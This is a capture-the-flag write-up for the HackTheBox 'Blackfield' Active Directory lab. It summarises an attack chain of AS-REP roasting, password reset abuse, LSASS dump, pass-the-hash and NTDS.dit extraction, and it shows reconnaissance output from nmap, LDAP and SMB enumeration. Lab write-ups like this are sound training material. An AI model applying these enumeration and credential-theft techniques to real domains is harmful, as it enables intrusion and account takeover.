

---
tags:
  - asreproasting
  - sebackupprivilege
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Blackfield
- Reference : https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html
- Solved : 2024.12.13. (Sun) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
	- **Open Ports**: Identified AD-related services such as DNS (53), Kerberos (88), LDAP (389, 3268), SMB (445), and WinRM (5985).
	- **DNS Enumeration**:
	    - Domain: `BLACKFIELD.local`.
	- **User Discovery**: Extracted a list of AD usernames from the `profiles$` SMB share for brute-forcing.

2. **Exploitation**
	- **AS-REP Roasting**:
	    - Captured Kerberos hash of `support` user.
	    - Cracked the hash with `hashcat`.
	- **Privilege Manipulation**:
	    - Exploited `ForceChangePassword` on `AUDIT2020` using `BloodHound`.
	    - Changed `AUDIT2020`'s password to gain SMB access to the `forensic` share.
	- **LSASS Memory Dump**:
	    - Extracted the NT hash of `svc_backup` from the `lsass.zip` file using `pypykatz`.
	    - Performed Pass-The-Hash to gain a WinRM shell as `svc_backup`.

3. **Privilege Escalation**
	- **SeBackupPrivilege**:
	    - Used `SeBackupPrivilege` to copy `NTDS.dit` and `SYSTEM` registry hives.
	    - Extracted hashes of domain accounts using `impacket-secretsdump`.
	- **Administrator Access**:
	    - Retrieved `Administrator` NT hash and authenticated using Pass-The-Hash via WinRM.

### Key Techniques:

- **Enumeration**: Extensive use of tools (`smbclient`, `ldapsearch`, `BloodHound`) to map the environment.
- **AS-REP Roasting**: Extracted and cracked Kerberos hashes.
- **Privilege Escalation**: Leveraged `SeBackupPrivilege` to access sensitive registry and AD files.
- **Credential Abuse**: Reused credentials and hashes to move laterally and escalate privileges.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/scripts]
└─$ ./port-scan.sh 10.10.10.192
Performing quick port scan on 10.10.10.192...
Found open ports: 53,88,135,389,445,593,3268,5985
Performing detailed scan on 10.10.10.192...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 06:47 EST
Nmap scan report for 10.10.10.192
Host is up (0.13s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 18:48:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-13T18:48:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.55 seconds
```

There are 8 ports open, and they impress that the target machine is `Windows` and `Active Directory Domain Controller`.
- DNS(53) is open.
- Kerberos(88), smb(139,445), ldap(389, 3268), winrm(5985) are AD related.
- RPC(139, 593) is also open.
- Domain name is `BLACKFIELD.local`

### DNS(53)

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ dig any @10.10.10.192 blackfield.local

; <<>> DiG 9.20.0-Debian <<>> any @10.10.10.192 blackfield.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 56464
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 7, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;blackfield.local.              IN      ANY

;; ANSWER SECTION:
blackfield.local.       600     IN      A       10.10.10.192
blackfield.local.       3600    IN      NS      dc01.blackfield.local.
blackfield.local.       3600    IN      SOA     dc01.blackfield.local. hostmaster.blackfield.local. 153 900 600 86400 3600
blackfield.local.       600     IN      AAAA    dead:beef::696b:e69a:9e95:746
blackfield.local.       600     IN      AAAA    dead:beef::119
blackfield.local.       600     IN      AAAA    dead:beef::b5cb:e71a:d578:9618
blackfield.local.       600     IN      AAAA    dead:beef::dd37:9dd1:5cb:8ff7

;; ADDITIONAL SECTION:
dc01.blackfield.local.  3600    IN      A       10.10.10.192
dc01.blackfield.local.  3600    IN      AAAA    dead:beef::119
dc01.blackfield.local.  3600    IN      AAAA    dead:beef::696b:e69a:9e95:746

;; Query time: 124 msec
;; SERVER: 10.10.10.192#53(10.10.10.192) (TCP)
;; WHEN: Fri Dec 13 06:53:48 EST 2024
;; MSG SIZE  rcvd: 311

                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ dig axfr @10.10.10.192 blackfield.local

; <<>> DiG 9.20.0-Debian <<>> axfr @10.10.10.192 blackfield.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

### RPC(135, 593)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U '' 10.10.10.192
Password for [WORKGROUP\]:
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
rpcclient $> queryuser administrator
result was NT_STATUS_ACCESS_DENIED
```

This allows NULL session login, but doesn't allow any further enumeration..

### LDAP(389)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -x -H ldap://10.10.10.192 -s base 
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=BLACKFIELD,DC=local
ldapServiceName: BLACKFIELD.local:dc01$@BLACKFIELD.LOCAL
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxDirSyncDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedControl: 1.2.840.113556.1.4.2090
supportedControl: 1.2.840.113556.1.4.2205
supportedControl: 1.2.840.113556.1.4.2204
supportedControl: 1.2.840.113556.1.4.2206
supportedControl: 1.2.840.113556.1.4.2211
supportedControl: 1.2.840.113556.1.4.2239
supportedControl: 1.2.840.113556.1.4.2255
supportedControl: 1.2.840.113556.1.4.2256
supportedControl: 1.2.840.113556.1.4.2309
supportedControl: 1.2.840.113556.1.4.2330
supportedControl: 1.2.840.113556.1.4.2354
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=lo
 cal
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
 ation,DC=BLACKFIELD,DC=local
schemaNamingContext: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
namingContexts: DC=BLACKFIELD,DC=local
namingContexts: CN=Configuration,DC=BLACKFIELD,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
namingContexts: DC=DomainDnsZones,DC=BLACKFIELD,DC=local
namingContexts: DC=ForestDnsZones,DC=BLACKFIELD,DC=local
isSynchronized: TRUE
highestCommittedUSN: 233563
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=BLACKFIELD,DC=local
dnsHostName: DC01.BLACKFIELD.local
defaultNamingContext: DC=BLACKFIELD,DC=local
currentTime: 20241213185721.0Z
configurationNamingContext: CN=Configuration,DC=BLACKFIELD,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

No useful information is found here.

### SMB(139,445)

`enum4linux` results:

```bash
┌──(kali㉿kali)-[~/htb]
└─$ enum4linux -a 10.10.10.192
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Dec 13 06:58:06 2024

 =========================================( Target Information )=========================================
Target ........... 10.10.10.192
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ============================( Enumerating Workgroup/Domain on 10.10.10.192 )============================
[E] Can't find workgroup/domain

 ================================( Nbtstat Information for 10.10.10.192 )================================
Looking up status of 10.10.10.192
No reply from 10.10.10.192

 ===================================( Session Check on 10.10.10.192 )===================================
[+] Server 10.10.10.192 allows sessions using username '', password ''

 ================================( Getting domain SID for 10.10.10.192 )================================
Domain Name: BLACKFIELD
Domain Sid: S-1-5-21-4194615774-2175524697-3563712290
[+] Host is part of a domain (not a workgroup)                               

 ===================================( OS information on 10.10.10.192 )===================================                                       
[E] Can't get OS info with smbclient                                  
[+] Got OS info for 10.10.10.192 from srvinfo:                             
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED     
 =======================================( Users on 10.10.10.192 )=======================================                                         [E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED     
[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED    

 =================================( Share Enumeration on 10.10.10.192 )=================================                                          
do_connect: Connection to 10.10.10.192 failed (Error NT_STATUS_IO_TIMEOUT) 
        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available
[+] Attempting to map shares on 10.10.10.192     

 ============================( Password Policy Information for 10.10.10.192 )============================                                             
[E] Unexpected error from polenum:                                          
[+] Attaching to 10.10.10.192 using a NULL share
[+] Trying protocol 139/SMB...
[!] Protocol failed: [Errno Connection error (10.10.10.192:139)] timed out
[+] Trying protocol 445/SMB...
[!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
[E] Failed to get password policy with rpcclient                       

 =======================================( Groups on 10.10.10.192 )=======================================                                         
[+] Getting builtin groups:                                                 
[+]  Getting builtin group memberships:                                   
[+]  Getting local groups:                                              
[+]  Getting local group memberships:                                       
[+]  Getting domain groups:                                                 
[+]  Getting domain group memberships:                         

 ==================( Users on 10.10.10.192 via RID cycling (RIDS: 500-550,1000-1050) )==================                                                
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible. 

 ===============================( Getting printer info for 10.10.10.192 )===============================                                            
do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED   
enum4linux complete on Fri Dec 13 06:59:27 2024
```

`smbclient -L` results:

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L \\10.10.10.192 -U "guest"
Password for [WORKGROUP\guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        profiles$       Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.192 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

`smbmap` results:

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbmap -H 10.10.10.192 -u 'guest' -p ''

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                             [|] Checking for open ports...                                             [/] Checking for open ports...                                             [*] Detected 1 hosts serving SMB     

<SNIP>

[+] IP: 10.10.10.192:445        Name: blackfield.local          Status: Authenticated                                                                 
        Disk                                                    PermissionsComment
        ----                                                    ------------------
        ADMIN$                                                  NO ACCESS Remote Admin
        C$                                                      NO ACCESS Default share
        forensic                                                NO ACCESS Forensic / Audit share.
        IPC$                                                    READ ONLY Remote IPC
        NETLOGON                                                NO ACCESS Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS Logon server share 
```

Several shares are found, and `IPC$`, `profiles$` only allow guest login.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -U 'guest' \\\\10.10.10.192\\profiles$
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 12:47:11 2020
  AChampken                           D        0  Wed Jun  3 12:47:11 2020
  ACheretei                           D        0  Wed Jun  3 12:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 12:47:11 2020
  AHigchens                           D        0  Wed Jun  3 12:47:11 2020
  AJaquemai                           D        0  Wed Jun  3 12:47:11 2020
  AKlado                              D        0  Wed Jun  3 12:47:11 2020
  AKoffenburger                       D        0  Wed Jun  3 12:47:11 2020
  AKollolli                           D        0  Wed Jun  3 12:47:11 2020
  AKruppe                             D        0  Wed Jun  3 12:47:11 2020
  AKubale                             D        0  Wed Jun  3 12:47:11 2020
  ALamerz                             D        0  Wed Jun  3 12:47:11 2020
  AMaceldon                           D        0  Wed Jun  3 12:47:11 2020
  AMasalunga                          D        0  Wed Jun  3 12:47:11 2020
  ANavay                              D        0  Wed Jun  3 12:47:11 2020
  ANesterova                          D        0  Wed Jun  3 12:47:11 2020
  ANeusse                             D        0  Wed Jun  3 12:47:11 2020
  AOkleshen                           D        0  Wed Jun  3 12:47:11 2020
  APustulka                           D        0  Wed Jun  3 12:47:11 2020
  ARotella                            D        0  Wed Jun  3 12:47:11 2020
  ASanwardeker                        D        0  Wed Jun  3 12:47:11 2020
  AShadaia                            D        0  Wed Jun  3 12:47:11 2020
  ASischo                             D        0  Wed Jun  3 12:47:11 2020
  ASpruce                             D        0  Wed Jun  3 12:47:11 2020
  ATakach                             D        0  Wed Jun  3 12:47:11 2020
  ATaueg                              D        0  Wed Jun  3 12:47:11 2020
  ATwardowski                         D        0  Wed Jun  3 12:47:11 2020
  audit2020                           D        0  Wed Jun  3 12:47:11 2020
  AWangenheim                         D        0  Wed Jun  3 12:47:11 2020
  AWorsey                             D        0  Wed Jun  3 12:47:11 2020
  AZigmunt                            D        0  Wed Jun  3 12:47:11 2020
  BBakajza                            D        0  Wed Jun  3 12:47:11 2020
  BBeloucif                           D        0  Wed Jun  3 12:47:11 2020
  BCarmitcheal                        D        0  Wed Jun  3 12:47:11 2020
  BConsultant                         D        0  Wed Jun  3 12:47:11 2020
  BErdossy                            D        0  Wed Jun  3 12:47:11 2020
  BGeminski                           D        0  Wed Jun  3 12:47:11 2020
  BLostal                             D        0  Wed Jun  3 12:47:11 2020
  BMannise                            D        0  Wed Jun  3 12:47:11 2020
  BNovrotsky                          D        0  Wed Jun  3 12:47:11 2020
  BRigiero                            D        0  Wed Jun  3 12:47:11 2020
  BSamkoses                           D        0  Wed Jun  3 12:47:11 2020
  BZandonella                         D        0  Wed Jun  3 12:47:11 2020
  CAcherman                           D        0  Wed Jun  3 12:47:12 2020
  CAkbari                             D        0  Wed Jun  3 12:47:12 2020
  CAldhowaihi                         D        0  Wed Jun  3 12:47:12 2020
  CArgyropolous                       D        0  Wed Jun  3 12:47:12 2020
  CDufrasne                           D        0  Wed Jun  3 12:47:12 2020
  CGronk                              D        0  Wed Jun  3 12:47:11 2020
  Chiucarello                         D        0  Wed Jun  3 12:47:11 2020
  Chiuccariello                       D        0  Wed Jun  3 12:47:12 2020
  CHoytal                             D        0  Wed Jun  3 12:47:12 2020
  CKijauskas                          D        0  Wed Jun  3 12:47:12 2020
  CKolbo                              D        0  Wed Jun  3 12:47:12 2020
  CMakutenas                          D        0  Wed Jun  3 12:47:12 2020
  CMorcillo                           D        0  Wed Jun  3 12:47:11 2020
  CSchandall                          D        0  Wed Jun  3 12:47:12 2020
  CSelters                            D        0  Wed Jun  3 12:47:12 2020
  CTolmie                             D        0  Wed Jun  3 12:47:12 2020
  DCecere                             D        0  Wed Jun  3 12:47:12 2020
  DChintalapalli                      D        0  Wed Jun  3 12:47:12 2020
  DCwilich                            D        0  Wed Jun  3 12:47:12 2020
  DGarbatiuc                          D        0  Wed Jun  3 12:47:12 2020
  DKemesies                           D        0  Wed Jun  3 12:47:12 2020
  DMatuka                             D        0  Wed Jun  3 12:47:12 2020
  DMedeme                             D        0  Wed Jun  3 12:47:12 2020
  DMeherek                            D        0  Wed Jun  3 12:47:12 2020
  DMetych                             D        0  Wed Jun  3 12:47:12 2020
  DPaskalev                           D        0  Wed Jun  3 12:47:12 2020
  DPriporov                           D        0  Wed Jun  3 12:47:12 2020
  DRusanovskaya                       D        0  Wed Jun  3 12:47:12 2020
  DVellela                            D        0  Wed Jun  3 12:47:12 2020
  DVogleson                           D        0  Wed Jun  3 12:47:12 2020
  DZwinak                             D        0  Wed Jun  3 12:47:12 2020
  EBoley                              D        0  Wed Jun  3 12:47:12 2020
  EEulau                              D        0  Wed Jun  3 12:47:12 2020
  EFeatherling                        D        0  Wed Jun  3 12:47:12 2020
  EFrixione                           D        0  Wed Jun  3 12:47:12 2020
  EJenorik                            D        0  Wed Jun  3 12:47:12 2020
  EKmilanovic                         D        0  Wed Jun  3 12:47:12 2020
  ElKatkowsky                         D        0  Wed Jun  3 12:47:12 2020
  EmaCaratenuto                       D        0  Wed Jun  3 12:47:12 2020
  EPalislamovic                       D        0  Wed Jun  3 12:47:12 2020
  EPryar                              D        0  Wed Jun  3 12:47:12 2020
  ESachhitello                        D        0  Wed Jun  3 12:47:12 2020
  ESariotti                           D        0  Wed Jun  3 12:47:12 2020
  ETurgano                            D        0  Wed Jun  3 12:47:12 2020
  EWojtila                            D        0  Wed Jun  3 12:47:12 2020
  FAlirezai                           D        0  Wed Jun  3 12:47:12 2020
  FBaldwind                           D        0  Wed Jun  3 12:47:12 2020
  FBroj                               D        0  Wed Jun  3 12:47:12 2020
  FDeblaquire                         D        0  Wed Jun  3 12:47:12 2020
  FDegeorgio                          D        0  Wed Jun  3 12:47:12 2020
  FianLaginja                         D        0  Wed Jun  3 12:47:12 2020
  FLasokowski                         D        0  Wed Jun  3 12:47:12 2020
  FPflum                              D        0  Wed Jun  3 12:47:12 2020
  FReffey                             D        0  Wed Jun  3 12:47:12 2020
  GaBelithe                           D        0  Wed Jun  3 12:47:12 2020
  Gareld                              D        0  Wed Jun  3 12:47:12 2020
  GBatowski                           D        0  Wed Jun  3 12:47:12 2020
  GForshalger                         D        0  Wed Jun  3 12:47:12 2020
  GGomane                             D        0  Wed Jun  3 12:47:12 2020
  GHisek                              D        0  Wed Jun  3 12:47:12 2020
  GMaroufkhani                        D        0  Wed Jun  3 12:47:12 2020
  GMerewether                         D        0  Wed Jun  3 12:47:12 2020
  GQuinniey                           D        0  Wed Jun  3 12:47:12 2020
  GRoswurm                            D        0  Wed Jun  3 12:47:12 2020
  GWiegard                            D        0  Wed Jun  3 12:47:12 2020
  HBlaziewske                         D        0  Wed Jun  3 12:47:12 2020
  HColantino                          D        0  Wed Jun  3 12:47:12 2020
  HConforto                           D        0  Wed Jun  3 12:47:12 2020
  HCunnally                           D        0  Wed Jun  3 12:47:12 2020
  HGougen                             D        0  Wed Jun  3 12:47:12 2020
  HKostova                            D        0  Wed Jun  3 12:47:12 2020
  IChristijr                          D        0  Wed Jun  3 12:47:12 2020
  IKoledo                             D        0  Wed Jun  3 12:47:12 2020
  IKotecky                            D        0  Wed Jun  3 12:47:12 2020
  ISantosi                            D        0  Wed Jun  3 12:47:12 2020
  JAngvall                            D        0  Wed Jun  3 12:47:12 2020
  JBehmoiras                          D        0  Wed Jun  3 12:47:12 2020
  JDanten                             D        0  Wed Jun  3 12:47:12 2020
  JDjouka                             D        0  Wed Jun  3 12:47:12 2020
  JKondziola                          D        0  Wed Jun  3 12:47:12 2020
  JLeytushsenior                      D        0  Wed Jun  3 12:47:12 2020
  JLuthner                            D        0  Wed Jun  3 12:47:12 2020
  JMoorehendrickson                   D        0  Wed Jun  3 12:47:12 2020
  JPistachio                          D        0  Wed Jun  3 12:47:12 2020
  JScima                              D        0  Wed Jun  3 12:47:12 2020
  JSebaali                            D        0  Wed Jun  3 12:47:12 2020
  JShoenherr                          D        0  Wed Jun  3 12:47:12 2020
  JShuselvt                           D        0  Wed Jun  3 12:47:12 2020
  KAmavisca                           D        0  Wed Jun  3 12:47:12 2020
  KAtolikian                          D        0  Wed Jun  3 12:47:12 2020
  KBrokinn                            D        0  Wed Jun  3 12:47:12 2020
  KCockeril                           D        0  Wed Jun  3 12:47:12 2020
  KColtart                            D        0  Wed Jun  3 12:47:12 2020
  KCyster                             D        0  Wed Jun  3 12:47:12 2020
  KDorney                             D        0  Wed Jun  3 12:47:12 2020
  KKoesno                             D        0  Wed Jun  3 12:47:12 2020
  KLangfur                            D        0  Wed Jun  3 12:47:12 2020
  KMahalik                            D        0  Wed Jun  3 12:47:12 2020
  KMasloch                            D        0  Wed Jun  3 12:47:12 2020
  KMibach                             D        0  Wed Jun  3 12:47:12 2020
  KParvankova                         D        0  Wed Jun  3 12:47:12 2020
  KPregnolato                         D        0  Wed Jun  3 12:47:12 2020
  KRasmor                             D        0  Wed Jun  3 12:47:12 2020
  KShievitz                           D        0  Wed Jun  3 12:47:12 2020
  KSojdelius                          D        0  Wed Jun  3 12:47:12 2020
  KTambourgi                          D        0  Wed Jun  3 12:47:12 2020
  KVlahopoulos                        D        0  Wed Jun  3 12:47:12 2020
  KZyballa                            D        0  Wed Jun  3 12:47:12 2020
  LBajewsky                           D        0  Wed Jun  3 12:47:12 2020
  LBaligand                           D        0  Wed Jun  3 12:47:12 2020
  LBarhamand                          D        0  Wed Jun  3 12:47:12 2020
  LBirer                              D        0  Wed Jun  3 12:47:12 2020
  LBobelis                            D        0  Wed Jun  3 12:47:12 2020
  LChippel                            D        0  Wed Jun  3 12:47:12 2020
  LChoffin                            D        0  Wed Jun  3 12:47:12 2020
  LCominelli                          D        0  Wed Jun  3 12:47:12 2020
  LDruge                              D        0  Wed Jun  3 12:47:12 2020
  LEzepek                             D        0  Wed Jun  3 12:47:12 2020
  LHyungkim                           D        0  Wed Jun  3 12:47:12 2020
  LKarabag                            D        0  Wed Jun  3 12:47:12 2020
  LKirousis                           D        0  Wed Jun  3 12:47:12 2020
  LKnade                              D        0  Wed Jun  3 12:47:12 2020
  LKrioua                             D        0  Wed Jun  3 12:47:12 2020
  LLefebvre                           D        0  Wed Jun  3 12:47:12 2020
  LLoeradeavilez                      D        0  Wed Jun  3 12:47:12 2020
  LMichoud                            D        0  Wed Jun  3 12:47:12 2020
  LTindall                            D        0  Wed Jun  3 12:47:12 2020
  LYturbe                             D        0  Wed Jun  3 12:47:12 2020
  MArcynski                           D        0  Wed Jun  3 12:47:12 2020
  MAthilakshmi                        D        0  Wed Jun  3 12:47:12 2020
  MAttravanam                         D        0  Wed Jun  3 12:47:12 2020
  MBrambini                           D        0  Wed Jun  3 12:47:12 2020
  MHatziantoniou                      D        0  Wed Jun  3 12:47:12 2020
  MHoerauf                            D        0  Wed Jun  3 12:47:12 2020
  MKermarrec                          D        0  Wed Jun  3 12:47:12 2020
  MKillberg                           D        0  Wed Jun  3 12:47:12 2020
  MLapesh                             D        0  Wed Jun  3 12:47:12 2020
  MMakhsous                           D        0  Wed Jun  3 12:47:12 2020
  MMerezio                            D        0  Wed Jun  3 12:47:12 2020
  MNaciri                             D        0  Wed Jun  3 12:47:12 2020
  MShanmugarajah                      D        0  Wed Jun  3 12:47:12 2020
  MSichkar                            D        0  Wed Jun  3 12:47:12 2020
  MTemko                              D        0  Wed Jun  3 12:47:12 2020
  MTipirneni                          D        0  Wed Jun  3 12:47:12 2020
  MTonuri                             D        0  Wed Jun  3 12:47:12 2020
  MVanarsdel                          D        0  Wed Jun  3 12:47:12 2020
  NBellibas                           D        0  Wed Jun  3 12:47:12 2020
  NDikoka                             D        0  Wed Jun  3 12:47:12 2020
  NGenevro                            D        0  Wed Jun  3 12:47:12 2020
  NGoddanti                           D        0  Wed Jun  3 12:47:12 2020
  NMrdirk                             D        0  Wed Jun  3 12:47:12 2020
  NPulido                             D        0  Wed Jun  3 12:47:12 2020
  NRonges                             D        0  Wed Jun  3 12:47:12 2020
  NSchepkie                           D        0  Wed Jun  3 12:47:12 2020
  NVanpraet                           D        0  Wed Jun  3 12:47:12 2020
  OBelghazi                           D        0  Wed Jun  3 12:47:12 2020
  OBushey                             D        0  Wed Jun  3 12:47:12 2020
  OHardybala                          D        0  Wed Jun  3 12:47:12 2020
  OLunas                              D        0  Wed Jun  3 12:47:12 2020
  ORbabka                             D        0  Wed Jun  3 12:47:12 2020
  PBourrat                            D        0  Wed Jun  3 12:47:12 2020
  PBozzelle                           D        0  Wed Jun  3 12:47:12 2020
  PBranti                             D        0  Wed Jun  3 12:47:12 2020
  PCapperella                         D        0  Wed Jun  3 12:47:12 2020
  PCurtz                              D        0  Wed Jun  3 12:47:12 2020
  PDoreste                            D        0  Wed Jun  3 12:47:12 2020
  PGegnas                             D        0  Wed Jun  3 12:47:12 2020
  PMasulla                            D        0  Wed Jun  3 12:47:12 2020
  PMendlinger                         D        0  Wed Jun  3 12:47:12 2020
  PParakat                            D        0  Wed Jun  3 12:47:12 2020
  PProvencer                          D        0  Wed Jun  3 12:47:12 2020
  PTesik                              D        0  Wed Jun  3 12:47:12 2020
  PVinkovich                          D        0  Wed Jun  3 12:47:12 2020
  PVirding                            D        0  Wed Jun  3 12:47:12 2020
  PWeinkaus                           D        0  Wed Jun  3 12:47:12 2020
  RBaliukonis                         D        0  Wed Jun  3 12:47:12 2020
  RBochare                            D        0  Wed Jun  3 12:47:12 2020
  RKrnjaic                            D        0  Wed Jun  3 12:47:12 2020
